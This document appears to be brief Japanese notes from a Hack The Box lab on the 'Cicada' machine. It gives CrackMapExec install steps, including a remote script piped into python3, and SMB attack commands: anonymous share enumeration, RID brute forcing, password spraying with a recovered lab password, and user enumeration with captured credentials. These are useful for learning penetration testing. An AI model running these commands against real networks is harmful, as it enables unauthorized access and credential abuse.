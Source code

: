 ## Ready
```
sudo apt-get install -y libssl-dev libffi-dev python2-dev build-essential
git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec
curl -sSL https://install.python-poetry.org | python3 -
export PATH="/home/kali/.local/bin:$PATH"
poetry --version
# Poetry の keyring 機能を無効にしてインストールを試みる
export PYTHON_KEYRING_BACKEND=keyring.backends.null.Keyring
poetry install
poetry run pip install termcolor
poetry run pip install python-libnmap
poetry run pip install xmltodict
poetry run pip install sqlalchemy
poetry run pip install terminaltables
poetry run crackmapexec

# This is Hit!!
poetry env remove python
poetry env use python3.11  # 3.11 がない場合は 3.10 か 3.9 に変更
poetry install
poetry run crackmapexec -h
```
## 調査確認
#### デフォルト
`poetry run crackmapexec smb cicada.htb --shares`
#### guest等のデフォルトで使用されている可能性のあるクレデンシャルの調査
`poetry run crackmapexec smb cicada.htb -u 'guest' -p '' --shares`
#### RID ブルートフォース
`poetry run crackmapexec smb 10.10.11.35 -u anonymous -p '' --rid-brute`
#### txtでリバースブルートフォース
`poetry run crackmapexec smb cicada.htb -u ../users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`
#### 取得したクレデンシャルで再度調査
`poetry run crackmapexec smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`
#### Userの調査
`poetry run crackmapexec smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users`

